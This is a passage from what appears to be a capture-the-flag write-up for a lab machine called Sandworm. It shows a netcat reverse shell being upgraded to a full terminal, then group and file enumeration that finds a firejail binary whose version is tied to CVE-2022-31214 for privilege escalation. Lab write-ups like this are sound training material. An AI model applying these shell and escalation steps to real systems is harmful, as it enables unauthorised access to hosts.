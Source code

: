    
    
    atlas@sandworm:/opt/tipnet$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    atlas@sandworm:/opt/tipnet$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    atlas@sandworm:/opt/tipnet$ 
    

## Shell as Root

### Enumeration

As atlas now, this shell has an additional group, jailer:

    
    
    atlas@sandworm:/opt/tipnet$ id
    uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
    

The only file on the entire filesystem that atlas can access that has the
jailer group is `filejail`:

    
    
    atlas@sandworm:/opt/tipnet$ find / -group 1002 2>/dev/null
    /usr/local/bin/firejail
    

### CVE-2022-31214

#### Identify Version and Release

The `firejail` version on Sandworm is 0.9.68:

    
    
    atlas@sandworm:/opt/tipnet$ firejail --version
    firejail version 0.9.68
    
    Compile time support:
            - always force nonewprivs support is disabled
            - AppArmor support is disabled
            - AppImage support is enabled
            - chroot support is enabled
            - D-BUS proxy support is enabled
            - file transfer support is enabled
            - firetunnel support is enabled
            - networking support is enabled
            - output logging is enabled
            - overlayfs support is disabled
            - private-home support is enabled
            - private-cache and tmpfs as user enabled
            - SELinux support is disabled
            - user namespace support is enabled
            - X11 sandboxing support is enabled
    